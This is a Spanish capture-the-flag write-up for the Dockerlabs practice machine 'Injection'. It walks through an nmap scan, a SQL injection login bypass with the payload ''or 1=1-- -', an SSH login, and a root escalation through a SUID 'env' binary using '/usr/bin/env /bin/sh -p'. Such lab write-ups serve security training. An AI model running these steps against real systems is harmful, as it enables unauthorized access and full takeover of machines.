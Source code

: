 

# Writeup: Injection - Dockerlabs

Hola, bienvenidos y bienvenidas. Vamos a resolver una máquina de la plataforma **Dockerlabs** llamada **"Injection"**.  
A continuación, podrás ver paso a paso cómo se resuelve. ¡Que te diviertas!


  ![Inicio](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/inicio.png)


---

## **Ecaneo de Puertos con Nmap**
Hacemos uso de `nmap` con la IP proporcionada por Dockerlabs para ver los puertos abiertos:  


```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```
Host is up (0.000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
 
Ahora sabemos que el **puerto 80 (HTTP)** y el **puerto 22 (SSH)** están abiertos.

---

## **Acceso a la Aplicación Web**
Nos dirigimos a poner la IP en el navegador.

![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/login.png)




  

Como la máquina nos habla de una **inyección** (como su propio nombre lo dice), intentamos hacer una **SQL Injection (SQLi)** con el clásico payload:  

```
'or 1=1-- -
```

**Explicación:**  
Como `1=1` siempre es verdadero, la consulta devuelve todos los registros, permitiendo el acceso sin conocer la contraseña (ponemos cualquier contraseña).  

**¡Sorpresa! Hemos entrado.** 

---

## **Acceso a SSH**
Sabemos que el **puerto 22 (SSH)** está abierto, así que vamos a intentar conectarnos.  

Ejecutamos el siguiente comando:  

```
sudo ssh 172.17.0.2 -l dylan
```

![ssh](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/ssh-entramos.png)




**Explicación de los parámetros:**  
- `sudo` → Ejecuta el comando con permisos de superusuario (root).  
- `ssh` → Inicia una conexión SSH (Secure Shell) para acceder a otro sistema de forma segura.  
- `172.17.0.2` → Es la dirección IP del servidor al que queremos conectarnos.  
- `-l dylan` → Especifica el usuario (`dylan`) con el que nos conectaremos.  

También podemos usar esta otra forma:  

```bash
sudo ssh dylan@172.17.0.2
```

---

## **Escalada de Privilegios**
Ahora que somos **dylan**, intentaremos hacer **escalada de privilegios** hasta ser **superusuario (root)**.  

Ejecutamos en la terminal:  

```bash
find / -perm -4000 -user root 2>/dev/null
```


![escalada](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/escalada.png)




**Explicación del comando:**  
- `find /` → Busca archivos en todo el sistema (`/` es la raíz).  
- `-perm -4000` → Filtra archivos con permiso **SUID** (4000 en octal), lo que permite que el archivo se ejecute con permisos de su propietario (en este caso, root).  
- `-user root` → Filtra para que solo muestre archivos cuyo dueño sea **root**.  
- `2>/dev/null` → Redirige los errores (`stderr`, descriptor `2`) a `/dev/null`, ocultando mensajes de «Permiso denegado».  

### **Archivo interesante encontrado: `/usr/bin/env`**
El binario **env** a veces permite ejecutar comandos como **root**.  
Otros binarios sospechosos suelen ser: `find`, `bash`, `vim`, `less`, `awk`, etc..  

---

## **Uso de GTFOBins para Escalada**
Buscamos el binario **env** en [GTFOBins](https://gtfobins.github.io/) para ver si tiene técnicas conocidas de escalada.  

Encontramos que podemos ejecutar:  

```bash
/usr/bin/env /bin/sh -p
```

¡Y listo! Ahora verificamos con:  

```
whoami
```

![whoami](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/listo-somos-root.png)


**Somos root. Máquina resuelta.**
